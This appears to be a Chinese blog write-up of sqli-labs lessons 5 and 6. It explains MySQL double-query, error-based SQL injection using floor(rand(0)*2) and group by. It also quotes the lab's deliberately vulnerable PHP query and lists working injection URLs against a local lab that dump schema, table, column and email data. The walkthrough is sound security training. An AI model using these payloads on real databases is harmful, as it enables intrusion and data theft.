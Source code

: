 ```yaml
---
layout: post
title:  "0x02 双查询注入"
date:   2020-03-25 16：19
categories: [pentest]
tags: sqli-labs
---
```

sqli-labs less5-6
<!-- more -->

## DOUBLE INJECTION

> select语句中嵌套一个select语句，当数据库报错但是不返回查询结果时有可能会出现
>
> ```mysql
> select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;
> ```
>
> 对这个payload尝试理解一下,第一层将concat(payload,foor(rand(0)*2)) 作为a，然后对a进行计数，
>
> ```mysql
> select count(*),concat(payload,floor(rand(0)*2)) as a from information_schema.columns group by a;
> ```
>
> mysql在处理count()和group by函数时，会建立虚拟表，将计数结果插入表中
>
> 在mysql中`floor(rand(0)*2)`结果存在规律
>
> ```mysql
> mysql> select floor(rand(0)*2) from information_schema.columns limit 6;
> +------------------+
> | floor(rand(0)*2) |
> +------------------+
> |                0 |
> |                1 |
> |                1 |
> |                0 |
> |                1 |
> |                1 |
> +------------------+
> ```
>
> 且在插入表时，插入时会对rand(0)进行重新计算，因此
>
> 第一次查询`rand(0)*2`为0，在插入表时group_key重新计算为1，
>
> 第二次查询`rand(0)*2`为1，直接在group_key计数+1
>
> 第三次查询`rand(0)*2`为0，在插入表时group_key重新计算为1，造成了插入group_key重复，造成报错
>
> 此时的报错信息为`concat(payload,floor(rand(0)*2))`重复
>
> 因此可以达到报错信息内直接显示我们的第二层查询也就是payload的查询结果

### less5

url

```mysql
http://127.0.0.1:9999/Less-5/?id=1%27
```

报错信息

```mysql
ou have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
```

但是页面内并不返回查询结果

```html
You are in...........
```

常规应该可以当作布尔型进行注入，不过题目是double injection

查看一下源码，查询语句是正常的，只是并不会直接返回查询成功的结果

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="3" color="#FFFF00">';
	print_r(mysql_error());
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
```

尝试手注

```mysql
http://127.0.0.1:9999/Less-5/?id=-1%27 union select 1,count(*),concat(0x3a,0x3a,(select schema_name from information_schema.schemata limit 4,1 ),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a %23

http://127.0.0.1:9999/Less-5/?id=-1%27 union select 1,count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema = 'security' limit 0,1 ),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a %23

http://127.0.0.1:9999/Less-5/?id=-1%27 union select 1,count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name = 'emails' limit 0,1 ),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a %23

http://127.0.0.1:9999/Less-5/?id=-1%27 union select 1,count(*),concat(0x3a,0x3a,(select email_id from emails where id =1 limit 0,1 ),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a %23
```

### less 6

url

```mysql
http://127.0.0.1:9999/Less-6/?id=1"
```

报错信息

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"" LIMIT 0,1' at line 1
```

这里就是双引号了

手注

```html
http://127.0.0.1:9999/Less-6/?id=1" union select 1,count(*),concat(0x3a,0x3a,(select schema_name from information_schema.schemata limit 4,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23

http://127.0.0.1:9999/Less-6/?id=1" union select 1,count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema = 'security' limit 0,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23

http://127.0.0.1:9999/Less-6/?id=1" union select 1,count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name = 'emails' limit 1,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23

http://127.0.0.1:9999/Less-6/?id=1" union select 1,count(*),concat((select email_id from emails  where id =1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23
```

